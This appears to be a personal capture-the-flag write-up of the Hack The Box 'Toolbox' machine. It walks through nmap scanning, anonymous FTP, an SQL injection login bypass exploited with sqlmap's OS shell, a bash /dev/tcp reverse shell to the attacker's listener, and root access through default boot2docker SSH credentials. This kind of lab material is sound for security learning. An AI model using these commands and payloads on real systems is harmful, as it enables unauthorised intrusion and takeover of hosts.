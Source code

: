 ```yaml
---
title: Toolbox
date: 2023-01-04 13:30:03 -5000
categories: [HTB,Easy,Windows]
tags: [Web,Network,Misconfiguration,Default Credentials,Weak Authentication,SQL Injection,Protocols]
---
```

# Toolbox (HTB Easy)
![image description](/Assets/Pictures/Toolbox/Toolbox.png)

# 🔎 Intell/Recon

## Intellingence Gathering 🕵🏾

Here we kick off our **nmap** scan in order to see which technology is being run on the server

Here is the results of our different scans

First we look for open ports

`nmap -p- -vv --min-rate 5000 --reason -oN ./Nmap/initial.log 10.10.10.236`

<figure><img src="/Assets/Pictures/Toolbox/image (4).png" alt=""><figcaption><p><em>Open ports</em></p></figcaption></figure>

We can now check the service Version in order to gatherr more information

`nmap -sV -p- -vv --min-rate 5000 -oN ./services-scripts.log 10.10.10.236`

<figure><img src="/Assets/Pictures/Toolbox/image (1).png" alt=""><figcaption><p><em>Services Enumeration</em></p></figcaption></figure>

## Enumeration

### FTP

Let's start with the low hanging fruit as _@thecybermentor_ always thought us. For this system here. It make sense to start with FTP on port 21. \
We do not have credentials so we will get it with the anonymous login

<figure><img src="/Assets/Pictures/Toolbox/image (8).png" alt=""><figcaption><p><em>FTP session</em></p></figcaption></figure>

This file is too heavy, for me to download. I will keep that in mind that the system has a docker-toolbox.exe file. Which suggest that the system must have docker installed in it. There is sadly nothing more to see here

### HTTPS

Now let's visit the webpage at `https://10.10.10.236/`

<figure><img src="/Assets/Pictures/Toolbox/image (12).png" alt=""><figcaption><p><em>the Website</em></p></figcaption></figure>

As we can see it's more of a static webpage. I checked the source code and ran some directory busting but nothing really juicy is coming out. Then I needed to check for the presence of Virtual Hosts (VHOST) on the target. The are two ways to do it. First, I check with the scripts of nmap cause it leaks sometimes. I did not need to run any directory busting to find the vhost it was there while getting the nmap script

`nmap -sVC -p443 -vv -T5 -oN services-HTTPS.log 10.10.10.236`

<figure><img src="/Assets/Pictures/Toolbox/image.png" alt=""><figcaption><p><em>Nmap service Version &#x26; Scripts</em></p></figcaption></figure>

We found our VHOST which is _**admin.megalogistic.com**_** ** and we also found a username which is _'admin'_

# 👣 Foothold

We have the admin subdomain and we know the username to access the admin panel.

for that let's add the new subdomain to our hosts file with the following:&#x20;

`echo "10.10.10.236    admin.megalogistics.com" | sudo tee -a /etc/hosts`

<figure><img src="/Assets/Pictures/Toolbox/image (10).png" alt=""><figcaption><p><em>login panel of admin.megalogistic.com</em></p></figcaption></figure>

I tried the usual admin:admin but no success. Since it's login form next thing would be to fire burp and see what's going on. But before that, let's try some SQL injection payloads to see what's going on here. I tried with the login = admin' or 1=1. There was an interesting error message suggesting that we have an sqlinjection vulnerability here.

Here is the error message, I got&#x20;

<figure><img src="/Assets/Pictures/Toolbox/image (13).png" alt=""><figcaption><p><em>Error from login Panel</em></p></figcaption></figure>

From the error we can literally see the SQL query that helps the user to log in. So from Burpsuite, we will get the POST request and use SQLMap in order to exploit this vulnerability

# 📚 SQLMap

The command was simple. I had to copy the POST request from Burpsuite into a file and then use it to test and see what we can get. I tried first to run a system command in order to see that it's vulnerable\
`sqlmap -r request.txt --batch --force-ssl  --os-cmd whoami`` `_``_&#x20;

<figure><img src="/Assets/Pictures/Toolbox/image (6).png" alt=""><figcaption><p><em>SQLMap results</em></p></figcaption></figure>

Since we are able to see the user on the system, we can get a reverse shell as well.

With the following:

`sqlmap -r request.txt --batch --force-ssl   --os-shell`

<figure><img src="/Assets/Pictures/Toolbox/image (7).png" alt=""><figcaption><p><em>SQLMap os-shell</em></p></figcaption></figure>

The next thing that needs to be done is to get a stable reverse-shell since this one can not be used for enumeration. In order to do so we will need to have our listener set with _nc -nvlp 9090_ on our terminal and the following to get our rever-shell.&#x20;

`bash -c "bash -i >& /dev/tcp/[YOUR-IP]/9090 0>&1"`

<figure><img src="/Assets/Pictures/Toolbox/image (2).png" alt=""><figcaption></figcaption></figure>

# 🏴☠ User Flag

Since the user in the system is _postgres_ we need to navigate to that directory in order to get the flag

<figure><img src="/Assets/Pictures/Toolbox/image (11).png" alt=""><figcaption><p><em>User flag</em></p></figcaption></figure>

After getting the, I spent time enumerating the box. Found the real I.P and the hostname. Which is not similar to the one we are going after. We are suppose to be attacking a windows machine but seems like we need to pivot to the target

<figure><img src="/Assets/Pictures/Toolbox/image(14).png" alt=""><figcaption><p><em>System Enumeration</em></p></figcaption></figure>

After the enumeration and looking at the info i gathered. I remember I have found a docker file in the FTP server. After checking on the documentation, I can ssh to the docker

# 🏁 Privesc

Now that we know we can ssh to the docker container. I could not find any credentials on the system. A little search lead me to this [Github Page](https://github.com/boot2docker/boot2docker#ssh-into-vm). In order to understand more on what is happening and see what are the default credentials. __&#x20;

using ssh, I was able to get the docker instance.

_`ssh docker@172.17.0.1`_

_We used 172.17.0.1 since the other box where we got our foothold had an address of 172.17.0.2 which in turn suggest that the docker machine should be at 172.17.0.1_

<figure><img src="/Assets/Pictures/Toolbox/image (5).png" alt=""><figcaption><p><em>Boom ! docker admin user</em></p></figcaption></figure>

Now that we are in the container, we can run some commands to see how to privesc. In order to do that we will need to run some OS commands in order to enumerate the system. turns out,&#x20;

_`sudo -l`_ was enough for us, and running _`sudo su`_ gives the root shell

<figure><img src="/Assets/Pictures/Toolbox/image (9).png" alt=""><figcaption><p><em>Windows File System</em></p></figcaption></figure>

Keep in mind it's a windows machine so the path should be same as the traditional. Which is

_C:\Users\Administrator\\_ the flag should be sitting somewhere in the admin directory.\
\
Thanks for reading. This is my first write-up. Hope this was helpful.
### Happy Hacking !
